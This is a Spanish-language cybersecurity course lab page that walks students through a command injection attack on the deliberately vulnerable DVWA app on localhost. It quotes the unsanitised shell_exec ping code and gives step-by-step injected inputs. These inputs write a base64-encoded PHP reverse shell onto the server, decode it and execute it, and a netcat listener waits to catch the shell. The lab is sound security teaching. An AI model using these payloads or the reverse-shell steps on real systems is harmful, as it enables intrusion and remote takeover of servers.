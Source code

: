 ```yaml
---
typora-copy-images-to: ../assets/img/fileupload
typora-root-url: ../../
layout: post
categories: tema4 Command Injection
title: Command Injection
conToc: true
header-includes: |
    \usepackage{fancyhdr}
    \pagestyle{fancy}
    \newcommand{\changefont}{%
    \fontsize{8}{11}\selectfont}
    \fancyhead[CO,CE]{}
    \fancyhead[LO,CE]{}
    \fancyfoot[LO,CE]{\changefont https://victorponz.github.io/Ciberseguridad-PePS/}
    \fancyfoot[CO,CE]{}
    \fancyfoot[LE,RO]{\thepage}
    \renewcommand{\headrulewidth}{2pt}
    \renewcommand{\footrulewidth}{1pt}
---
```


## Práctica - Command injection

> La inyección de comandos es un ataque en el que el objetivo es la ejecución de comandos arbitrarios en el sistema operativo host a través de una aplicación vulnerable. Los ataques de inyección de comandos son posibles cuando una aplicación pasa datos no seguros proporcionados por el usuario (formularios, cookies, encabezados HTTP, etc.) a un shell del sistema. En este ataque, los comandos del sistema operativo proporcionados por el atacante generalmente se ejecutan con los privilegios de la aplicación vulnerable. Los ataques de inyección de comandos son posibles en gran parte debido a una validación de entrada insuficiente.

En la **siguiente práctica** vamos a realizar un *reverse shell* mediante la inyección  de comandos desde un campo de texto de un formulario que no realiza una validación de entrada correcta.

Este es una variante del ataque **FileUpload** ya que persigue almacenar un fichero ejecutable con dicho reverse shell.

La máquina DVWA tiene un fallo de seguridad en la página [Command Injection](http://localhost:8080/vulnerabilities/exec/).

![image-20210504191910879](/Ciberseguridad-PePS/assets/img/fileupload/image-20210504191910879.png)

En este formulario se supone que el usuario puede poner una IP a la que hacerle ping. Para descubrir si es vulnerable a Command injection podemos introducir el siguiente comando:

```
127.0.0.1 ; ls
```

Lo que intentamos es que el servidor ejecute también el comando `ls` ya que suponemos que está haciendo el siguiente comando

```php
 $cmd = shell_exec( 'ping  -c 4 ' . $target ); 
```

y no comprueba si `$target` es una IP Válida.

**Los pasos son los siguientes:**

1. Descarga el archivo del *reverse shell* desde esta [dirección](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) y guárdalo como `shell.php`

2. Edítalo y cambia la IP por la de tu equipo

![image-20210504175459944](/Ciberseguridad-PePS/assets/img/fileupload/image-20210504175459944.png)



3. Ahora vamos a codificarlo en https://www.base64encode.org/.  

   > **Nota**. Para que ocupe menos espacio es recomendable eliminar los comentarios 

4.  Nos aprovecharnos de la vulnerabilidad para crear un archivo en el servidor mediante la siguiente entrada en el formulario:

   ```
   127.0.0.1 ; echo "pega-aquí-el-código-en-base64" > shell.txt
   ```

   Con este comando estamos creando el archivo `shell.txt` con el código en base64.
   

5. Decodificamos el código mediante la siguiente entrada

   ```
   127.0.0.1 ; cat shell.txt | base64 -d > shell.php
   ```

6. Ya sólo nos queda ejecutar en el ordenador del atacante el comando `netcat`

```bash
nc -v -n -l -p 1234
```

5. Y quedarnos a la espera de una conexión entrante desde el ordenador de la víctima al visitar la url [localhost:8080/vulnerabilities/exec/shell.php](localhost:8080/vulnerabilities/exec/shell.php) del punto 5.

 ![image-20210504193946369](/Ciberseguridad-PePS/assets/img/fileupload/image-20210504193946369.png)

